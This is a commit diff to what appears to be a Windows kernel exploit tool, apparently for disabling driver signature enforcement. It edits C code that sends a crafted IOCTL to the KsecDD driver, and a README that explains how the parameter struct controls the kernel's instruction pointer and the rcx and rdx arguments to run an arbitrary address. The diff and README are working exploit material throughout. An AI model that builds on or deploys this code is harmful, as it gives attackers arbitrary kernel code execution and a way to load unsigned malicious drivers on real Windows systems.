

Minor fixes.

diff --git a/src/Dsebler.c b/src/Dsebler.c
@@ -26,7 +26,8 @@ BOOL WINAPI LsaKsec_SendIoctl()
 	if (pParameterStruct > 0)
 	{
 		pParameterStruct->pInternalStruct = &InternalStruct;
-		pParameterStruct->rdx = (UINT16)0;
+		pParameterStruct->rdx = (ULONG)0;
+		pParameterStruct->unk = (ULONG)0;
 
 		while ((((PNTQUERYSYSTEMINFORMATION)0x4141414141414141)(0x10, (PVOID)pSystemHandleInformation, szSystemInformationBuffer, NULL)) != STATUS_SUCCESS)
 		{

diff --git a/src/Dsebler.h b/src/Dsebler.h
@@ -65,7 +65,8 @@ typedef struct _IPC_SET_FUNCTION_RETURN_DEEP_PARAMETER {
 
 typedef struct _IPC_SET_FUNCTION_RETURN_PARAMETER {
     PIPC_SET_FUNCTION_RETURN_DEEP_PARAMETER pInternalStruct;
-    UINT16 rdx;
+    ULONG rdx;
+    ULONG unk;
 } IPC_SET_FUNCTION_RETURN_PARAMETER, * PIPC_SET_FUNCTION_RETURN_PARAMETER;
 
 typedef struct _REPLACEABLE_POINTER {

diff --git a/README.md b/README.md
@@ -11,7 +11,7 @@ The Microsoft Kernel Mode Security Support Provider Interface (KsecDD) is a kern
 
 
 The case statement first checks whether the buffer length which was sent from userland is 16. If so it passes execution to KsecIoctlHandleFunctionReturn.
-The parameter that is passed to KsecIoctlHandleFunctionReturn is a 16-byte-large data structure which I named IPC_SET_FUNCTION_RETURN_PARAMETER. The struct holds two 8-byte values. The first is a pointer to a second 16-byte data structure which in turn holds a pointer which will be the custom address to be executed (rip), whereas the second value is a pointer to the first parameter that is passed at execution time (rcx). Going back to the main struct, the second 8-byte value is the value that will go into rdx at execution time.
+The parameter that is passed to KsecIoctlHandleFunctionReturn is a 16-byte-large data structure which I named IPC_SET_FUNCTION_RETURN_PARAMETER. The struct holds three values. The first is a pointer to a second 16-byte data structure which in turn holds a pointer which will be the custom address to be executed (rip), and another 8-byte large element which will be the first parameter that is passed at execution time (rcx). Going back to the main struct, the second value is a 4-byte-large element which will go into rdx at execution time. The third 4-byte value is not needed.
 
 ![](pictures/8.png)
 
